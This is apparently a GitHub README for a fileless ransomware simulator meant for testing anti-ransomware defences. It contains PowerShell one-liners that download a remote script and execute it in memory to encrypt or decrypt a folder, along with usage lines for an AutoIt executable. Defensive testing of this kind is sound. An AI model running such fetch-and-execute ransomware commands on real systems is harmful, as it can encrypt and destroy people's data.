 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

**Example:**

Encryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';

Decryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';

# Bonus
An autoIt script - you may compile it to an executable using Aut2Exe, or execute it using the interpreter

**Example:**

Encryption - 
RansomSIM.exe /encrypt <folder>
  
Decryption - 
RansomSIM.exe /decrypt <folder>


